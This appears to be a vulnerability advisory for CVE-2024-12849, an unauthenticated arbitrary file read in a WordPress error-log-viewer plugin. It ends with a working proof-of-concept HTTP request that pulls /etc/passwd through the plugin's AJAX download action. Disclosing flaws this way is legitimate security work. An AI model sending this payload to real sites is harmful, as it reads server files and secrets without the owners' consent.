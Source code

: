 # CVE-2024-12849
Error Log Viewer By WP Guru <= 1.0.1.3 - Missing Authorization to Unauthenticated Arbitrary File Read

# Description

The Error Log Viewer By WP Guru plugin for WordPress is vulnerable to Arbitrary File Read in all versions up to, and including, 1.0.1.3 via the wp_ajax_nopriv_elvwp_log_download AJAX action. This makes it possible for unauthenticated attackers to read the contents of arbitrary files on the server, which can contain sensitive information.

## Details

- **Type**: plugin
- **Slug**: error-log-viewer-wp
- **Affected Version**: 1.0.1.3
- **CVSS Score**: 7.5
- **CVSS Rating**: High
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
- **CVE**: CVE-2024-12849
- **Status**: Active

POC
---

```
POST /wp-admin/admin-ajax.php HTTP/2
Host: wp-dev.ddev.site
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

action=elvwp_log_download&elvwp_error_log_download=1&elvwp_error_log=/etc/passwd
```
